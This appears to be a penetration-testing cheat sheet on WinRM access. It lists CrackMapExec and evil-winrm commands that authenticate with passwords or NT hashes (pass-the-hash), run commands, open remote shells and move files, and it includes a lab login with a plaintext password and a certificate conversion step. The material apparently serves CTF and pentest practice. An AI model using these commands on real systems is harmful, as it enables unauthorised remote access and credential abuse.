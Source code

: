 ###### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H nthash
cme winrm ip -u username -H nthash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename
```
```
Use 5986 to connect:
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
###### Evil-Winrm to connect via pem
```
evil-winrm -i 10.10.11.152 -S -k keyStore.pem -c keyStore.pem

Convert a PKCS#12 file (.pfx .p12) containing a private key and certificates to PEM:
openssl pkcs12 -in legacyy_dev_auth.pfx -out keyStore.pem -nodes 
```
